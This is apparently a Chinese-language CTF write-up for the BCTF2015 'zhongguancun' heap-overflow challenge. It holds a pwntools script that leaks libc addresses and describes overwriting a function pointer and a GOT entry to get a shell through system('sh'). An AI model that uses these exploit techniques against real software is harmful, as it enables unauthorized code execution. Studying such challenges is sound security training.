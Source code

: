 ```yaml
---
layout: post
title: BCTF2015 zhongguancun writeup
catagories: [ctf]
tags: [ctf, writeup, BCTF2015, pwn, exploit]
---
```


> 堆溢出, 弱菜解题小记

```
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!

a) Register my store
b) Try my store
c) Exit
Your choice? 
```

经分析，这个题目是说一个中关村买卖电子产品的服务。在买前之前，需要先在商店里，填好商品条目。一共有两大类，手机和手表，每个条目的数据结构如下：

```
+0x0
callback function pointer, 在增加条目时，被指向一个用来计算批发价的函数。
+0x4
手机或手表名称，由用户自己输入， 长度0x20
+0x24
相关描述，长度0x50
+0x74
价格，长度16
+0x78
操作系统对应选项，其中手机有5个，手表有4个。
```

每个条目的0x7c大小的数据结构，均在堆上申请分配

`0x08049036`处的这个函数，可以打印出目前商店中的商品。它在堆上申请了一个2840大小的空间，然后使用一个函数将其格式化打印到堆上，再使用put_char()逐个输出出来。

```c
int __cdecl sub_804932E(item *a1, char *buffer)
{
    return sprintf(
               buffer,
               "%s %s price: %d CNY description: %s",
               20 * a1->type + 0x804B140,
               a1->name,
               a1->price,
               a1->description);
}
```

那么，到目前为止，可能的漏洞在哪里呢，我们对堆上分配的内存比较敏感，先看看2840大小的空间够不够存放最多16个条目的。
我们把所有的条目都定位到最长，操作系统类型，选择手机里的`Blackberry OS`，即类型为4。其名称输入最长的`31`个字符，描述输入`79`个字符。价格在内存中使用32位整型保存，最大应该是`2147483647`，`%d`打印出来，是10个字符长。

所有的这些加起来，输满16个，再算上包含`Store name`的头部，好像才2837个字符，没有溢出的样子。

真的是这样吗？价格由atoi()函数转换而成，好像没有做强制类型转换，也就是说可以是负数，如果是负数，像这样`-1000000000`岂不是11个字符，`2837+16>2840`，这样就可以溢出了。

这个溢出，我们如何来利用呢？首先想到的是每个商品也是在堆上分配的（0x7c大小），而每个商品的最开始的地方，是相应的函数指针，能不能把这个函数指针改掉？当然可以，那么改成什么呢？试遍所有，在调函数之前有个判断，从`/dev/zero`里读0, 填充到当前指向的值最末位，即如果是0xaabbccdd，会改成0xaabbcc00，当然，如果这个数据是只读的，就没法改动。（这个据出题男神kelwin说，是一种虚函数表保护的机制，由北大张超博士提出来的idea，两位神目前均在berkeley）。那么这个地方的函数指针也只能改成rodata这种只读权限的段的内容了。又因为它是函数指针，我们接下来，也要利用这个函数指针，所以我的方法是改成`008049B64x`，利用其`sub_804932E`函数来向指定内存中打印字符串，这样来达到任意地址写的目的。

如此，在执行到以下代码时，就能执行我们改成的`sub_804932e`处的函数，而第二参数，本来是指购买数量，换成这个函数变成了指定的buffer的值了。也是我们可以控制的。

```c
    read_zero(v4, (void **)&a1->callback);
    v6 = (*(int (__cdecl **)(item *, int))a1->callback)(a1, numberofBuy);
    sprintf(nptr, "The lowest price we can offer is %d CNY.\n", v6);
```

到这里，问题来了，我们能任意地址写了，虽然是一写一大块。所以这里又有一个小trick，如果把写的值放到item.description的最后，那么前面很多打印的串，会覆盖内存上很多地方，让我们不是那么的得心应手，能不能把要覆盖的值写到前面的，这样任意地址写的时候就非常方便。

我们可以覆盖`Blackberry OS`来达到目的，因为这个串，在格式化输出时，是放在第一位的，我们先修改这个串，为我们接下来要使用的值，这样会更容易操作。

接下来，我们如何泄露某个libc函数地址，来计算libc基址，并且把计算好的system()函数的地址再写回远端呢？好像比较困难，我们可以使用2840大小的堆地址，将其写成某个libc函数的got表地址，然后很多地方调用了它，可以将它的值打印出来，即应got表的值可以打印出来，但好像一直没找到办法把计算好的system()函数的地址写回去。

我这里的利用不太好，最终还是使用的暴力的思路，泄露出system()地址后，因为它们是页对齐的，即对方alsr无论地址如何变，最后12位是不会变的。并且前面的8位也不会变，变的只是中间那几位，这样变化空间就比较小，可以将一个对的system()函数的地址放上去，然后`while True:`的来调利用脚本，一旦利用成功，因为开了交互式`io.interactive()`,脚本就会停下来，拿到shell。

泄露libc地址的脚本

```python
#!/usr/bin/env python2
from pwn import *

io = process("./zhongguancun-47a25f85cc5221071886cc129046e6e4_noped")
#io = remote("146.148.60.107", 6666)
#bin = ELF("./zhongguancun-47a25f85cc5221071886cc129046e6e4")
#libc = ELF("libc.so.6")
libc = ELF("libc.so.6.local")


buffer = "a"*15 + "\n" + "A"*63 + "\n" 
buffer += ("a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" + "D"*79 + "\n") * 15
io.send(buffer)
#raw_input()
buffer = "c" + "\n"
buffer += "a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" 
buffer += p32(0x080489C3) + "D"*2 + p32(0x0804B024)*10 + p32(0xf7470da0) + p32(0x080489C3)*4 + p32(0x804b140) + p32(0x0804B030)  + p32(0x08049B64) + "\n"

buffer += "c" + "\n" + "d" + "\n" +"b" +"\n" + "16" +"\n"
buffer += "b" + "\n" + "134525187" + "\n" # offset read, global_s
buffer += "b" + "\n" + "134525696" + "\n"
buffer += "c" + "\n" 
io.send(buffer)


buffer = "b" + "\n"
io.send(buffer)
all = io.recvrepeat(timeout=1)
readaddr = all[-68:-64]
alarmaddr = all[-64:-60]
print libc.symbols["read"]
print libc.symbols["system"]
libcbase = u32(readaddr) - libc.symbols["read"]
systemaddr = libcbase + libc.symbols["system"]
print "[+] leak read() address: ", hex(u32(readaddr))
print "[+] leak libc base address: ", hex(libcbase)
print "[+] leak system() address: ", hex(systemaddr)

io.interactive()
```

然后，再利用上面脚本，稍做修改，将泄露出来的地址硬写进去，改一下来触发来`system("sh")`(我改的是atoi()函数，并给传进去的参数是"sh"， 利用脚本就不贴了，跟上面大同小异), 加个while的循环，暴力的等shell吧。还好是32位的二进制程序，如果是64位的，这个方法是行不通的。所以不推荐我这里使用的暴力的方法。

下面我们来看看来自Gallopsled的非常完美的一个利用吧:

* 猛击链接:<https://gist.github.com/Idolf/99ffa3c5f76165f77b19>

他利用了当前拥有的钱数，将其指向的地址改成`sprintf`的got表的地址，然后在下面这地方，有对钱数进行了改动。

```c
get_input(nptr, 15, '\n');
v1 = atoi(nptr);
if ( v1 <= 0 )
    goto LABEL_6;
v2 = *(_DWORD *)mymoney - a1->price * v1;
if ( v2 >= 0 )
{
    *(_DWORD *)mymoney = v2;
    put_char((int *)"Thanks for buying.\n");
    sprintf(nptr, "Total money left: %d CNY.\n", *(_DWORD *)mymoney);
```

利用钱数改动的操作，将`sprintf`到`system()`的偏移计算好，直接利用`momey - a1->price*v1`的操作将`sprintf`的`got`表的值改成真实的`system`函数地址值，接下来，执行到`sprintf()`就相当于执行`system("2 ;sh")`了，`nptr="2 ;sh"`
